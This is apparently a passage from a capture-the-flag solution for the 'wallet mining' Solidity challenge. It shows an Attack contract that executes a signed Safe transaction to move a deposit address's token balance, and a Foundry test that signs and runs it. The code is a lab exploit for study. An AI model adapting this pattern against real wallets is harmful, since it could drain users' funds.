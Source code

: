   ```solidity
    function attack(address token, address user, address depositAddress,  bytes memory signature) public {
        bytes memory data = abi.encodeWithSignature(
            "transfer(address,uint256)", 
            user, 
            IERC20(token).balanceOf(depositAddress)
        );
        Enum.Operation operation = Enum.Operation.Call;
        bool success = Safe(payable(depositAddress)).execTransaction(
            token,
            0,
            data,
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(address(0)),
            signature
        );

    }      
}




function test_walletMining() public checkSolvedByPlayer {
    Attack attack = new Attack(address(walletDeployer), address(token), user,  address(authorizer), player, USER_DEPOSIT_ADDRESS, ward);

    bytes memory data = abi.encodeWithSignature(
        "transfer(address,uint256)", 
        user, 
        token.balanceOf(USER_DEPOSIT_ADDRESS)
    );
    Enum.Operation operation = Enum.Operation.Call;

    bytes32 txHash = Safe(payable(USER_DEPOSIT_ADDRESS)).getTransactionHash(
        address(token),
        0,
        data,
        operation,
        0,
        0,
        0,
        address(0),
        address(0),
        0
    );

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);  
    bytes memory signature = abi.encodePacked(r, s, v);

    attack.attack(address(token), user, USER_DEPOSIT_ADDRESS, signature);
}
  ```
</details>

---